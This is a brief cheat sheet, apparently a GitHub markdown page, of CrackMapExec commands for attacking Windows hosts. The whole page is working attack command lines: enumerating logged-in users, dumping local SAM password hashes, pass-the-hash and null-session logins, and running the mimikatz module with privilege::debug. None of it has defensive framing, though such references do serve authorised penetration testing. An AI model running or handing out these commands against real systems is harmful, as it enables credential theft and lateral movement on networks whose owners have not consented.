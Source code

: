 # check logged in users

```bash
crackmapexec <target(s)> -u 'Administrator' -p 'PASS' --lusers
```

# dumping local SAM hashes

```bash
crackmapexec <target(s)> -u 'Administrator' -p 'PASS' --local-auth --sam
```

# pass the hash

```bash
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

# login with null session

```bash
crackmapexec smb <target(s)> -u '' -p ''
```

# modules

## list modules

```bash
crackmapexec -L
```

## use module

```bash
crackmapexec <protocol> <target(s)> -M <module name>.
crackmapexec smb <target(s)> -u Administrator -p 'PASS' -M mimikatz
```

## see module options

```bash
crackmapexec <protocol> -M <module name> --options
crackmapexec smb -M mimikatz --options
```

## using module options

```bash
crackmapexec <protocol> <target(s)> -u Administrator -p 'PASS' -M mimikatz -o COMMAND='privilege::debug'
```
